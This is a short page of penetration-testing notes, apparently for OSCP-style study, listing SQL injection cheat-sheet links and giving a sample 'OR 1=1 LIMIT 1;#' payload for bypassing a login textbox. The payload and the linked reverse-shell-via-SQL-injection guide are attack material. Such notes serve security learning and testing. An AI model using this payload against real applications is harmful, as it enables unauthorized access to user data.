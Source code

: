 # Manual Injections

* [https://sushant747.gitbooks.io/total-oscp-guide/content/sql-injections.html](https://sushant747.gitbooks.io/total-oscp-guide/content/sql-injections.html)
* [https://medium.com/hacker-toolbelt/sqlmap-cheat-sheet-e5a38300b50](https://medium.com/hacker-toolbelt/sqlmap-cheat-sheet-e5a38300b50)
* [http://resources.infosecinstitute.com/sql-truncation-attack/](http://resources.infosecinstitute.com/sql-truncation-attack/)
* [http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* [http://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/](http://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/)
* [https://guide.offsecnewbie.com/5-sql](https://guide.offsecnewbie.com/5-sql)

## Show Only 1 Row at a Time

```bash
# Some databases will not show results if you are trying to get more than 
# 1 row at a time
select * from users where name = 'username' or 1=1 LIMIT 1;#

# this is what you would put into a textbox
username' OR 1=1 LIMIT 1;#
```

